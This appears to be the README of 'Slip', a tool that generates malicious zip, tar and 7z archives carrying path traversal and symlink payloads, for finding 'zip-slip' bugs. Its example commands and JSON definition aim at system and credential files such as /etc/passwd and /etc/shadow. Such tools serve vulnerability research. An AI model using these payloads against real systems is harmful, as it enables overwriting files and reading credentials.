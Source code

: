 # Slip

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vulnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z** and **zip-like** (jar, war, apk, ipa, ...) archives 
- Allows to hunt for **arbitrary file write** and **arbitrary file read** vulnerabilities 
- Supports the generation of path traversal payloads to search for a file at different depths in the filesystem
- Implements a massfind mode, that uses a payload dictionary to generate the archive
- Allows cloning existing archives to add malicious payloads in more complex existing archives 

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar||jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --clone TEXT                Archive to clone. It creates a copy of an
                                  existing archive and opens to allow adding
                                  payloads.
  -j, --json-file TEXT            JSON file containing a list of file
                                  definitions.
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path;name
  --file-content TEXT             Content of the files in the archive, file-
                                  content must be specified if -p/--paths is
                                  used.
  --search INTEGER                Maximum depth in path traversal payloads,
                                  this option generates payload to traverse
                                  multiple depths. It applies to all symlinks
                                  and paths.  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  dict.txt]
  --mass-find-placeholder TEXT    Filename placeholder in mass-find payload
                                  dictionary  [default: {FILE}]
  --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.

```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" --file-content "foo" archive.tar
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" --file-content "foo" archive.zip
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type 7z --symlinks "../etc/hosts;linkname" archive.7z  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/;foo`, path: `foo/hosts`).

Create an archive from an existing one and add a new payload:
```
python3 slip.py --clone source.7z --paths "foo" --file-content "bar" archive.7z
```

Create an archive from a JSON file and add new payloads:
```
python3 slip.py --json-file definition.json --paths "foo0,bar00" --symlinks "/etc/passwd,/etc/shadow" --file-content "buzz" archive.zip
```

With `definition.json` containing:
```
[
    {
        "file-name": "../foo1",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "../../foo2",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "/etc/passwd;foo3",
        "content":"IGNORED",
        "type":"symlink"
    },
    {
        "file-name": "foo4",
        "content":"Y2lhbwo=",
        "base64": true,
        "type":"path"
    }
]
```
Supported fields are `file-name`, `content`, `base64`, `type`.
If `base64` is specified, content will be decoded form base64.
`type` can only be `path` or `symlink`.

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" --file-content "foo" archive.tar
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```
NOTE: --search does not support named symlink usage to prevent named symlinks from overwriting eachother. 

Create a tar archive with payloads from the default mass-find dictionary to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive.tar
```

## License
This project is licensed under the GPL-3.0 [License](https://github.com/0xless/slip/blob/main/LICENSE).

